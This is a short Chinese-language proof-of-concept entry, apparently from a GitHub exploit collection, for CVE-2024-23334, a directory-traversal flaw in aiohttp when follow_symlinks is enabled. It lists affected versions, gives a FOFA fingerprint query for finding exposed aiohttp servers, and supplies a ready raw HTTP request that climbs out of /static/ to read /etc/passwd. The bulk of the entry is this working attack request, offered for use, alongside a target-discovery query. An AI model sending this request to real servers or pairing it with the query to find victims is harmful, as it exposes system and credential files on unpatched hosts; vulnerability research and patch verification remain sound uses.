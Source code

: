 ## aiohttp存在目录遍历漏洞(CVE-2024-23334)
aiohttp是一个Python的HTTP客户端/服务器框架，它基于asyncio库实现异步编程模型，可以支持高性能和高并发的HTTP通信。aiohttp用于编写异步的Web服务器、Web应用程序或HTTP客户端，以提供对Web和HTTP资源的访问和操作。近日监测到aiohttp目录遍历漏洞的漏洞情报,aiohttp使用选项"follow_symlinks"来决定是否跟踪静态根目录之外的符号链接。当"follow_symlinks "设置为 "True "时,将不会验证读取的文件是否在根目录内从而导致目录遍历，攻击者可以利用此漏洞访问系统上的任意文件。

## 版本
```
1.0.5 <aiohttp < 3.9.2
```

## fofa
```
app="aiohttp"
```

## poc
```
GET /static/../../../../../../etc/passwd HTTP/1.1
Host: xxxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
![image](https://github.com/wy876/POC/assets/139549762/0488dc1b-6aaa-4a3e-91f3-1f64a6e69e89)
